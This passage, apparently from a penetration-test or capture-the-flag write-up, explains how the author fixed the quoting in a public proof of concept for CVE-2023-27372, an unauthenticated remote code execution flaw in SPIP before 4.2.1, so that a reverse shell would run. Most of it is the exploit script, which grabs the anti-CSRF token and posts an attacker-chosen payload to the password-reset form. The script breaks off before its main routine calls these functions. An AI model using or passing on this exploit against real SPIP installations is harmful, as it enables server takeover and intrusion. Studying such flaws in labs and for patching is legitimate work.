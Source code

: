 The operation is simple, but in order to execute code in the server, I needed to **edit the Python script**. The original payload failed due to improperly nested quotes and lack of quote escaping which **broke the PHP syntax**.

The edited payload use double quotes to wrap the PHP string and single quotes inside the Bash command, ensuring proper nesting and escaping. This allowed the reverse shell to execute successfully.

```python
#!/usr/bin/env python3

import argparse
import bs4
import requests

def parseArgs():
    parser = argparse.ArgumentParser(description="PoC CVE-2023-27372 - SPIP < 4.2.1 RCE (Unauthenticated)")
    parser.add_argument("-u", "--url", required=True, help="SPIP base URL (e.g., http://target/spip)")
    parser.add_argument("-c", "--command", required=True, help="Command to execute (reverse shell or blind RCE)")
    parser.add_argument("-v", "--verbose", action="store_true", help="Verbose mode")
    return parser.parse_args()

def get_anticsrf(url):
    try:
        r = requests.get(f"{url}/spip.php?page=spip_pass", timeout=10)
        soup = bs4.BeautifulSoup(r.text, 'html.parser')
        csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
        if csrf_input:
            csrf_value = csrf_input['value']
            if options.verbose:
                print(f"[+] Anti-CSRF token found: {csrf_value}")
            return csrf_value
        else:
            print("[-] Unable to find Anti-CSRF token")
            return None
    except Exception as e:
        print(f"[-] Error retrieving CSRF token: {e}")
        return None

def send_payload(url, csrf, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    headers = {
        "User-Agent": "Mozilla/5.0",
        "Referer": f"{url}/spip.php?page=spip_pass"
    }
    try:
        r = requests.post(f"{url}/spip.php?page=spip_pass", data=data, headers=headers)
        if options.verbose:
            print(f"[+] Sent payload: {payload}")
            print(f"[+] HTTP status: {r.status_code}")
        return r.status_code
    except Exception as e:
        print(f"[-] Error sending payload: {e}")
        return None

if __name__ == '__main__':
    options = parseArgs()
    requests.packages.urllib3.disable_warnings()
```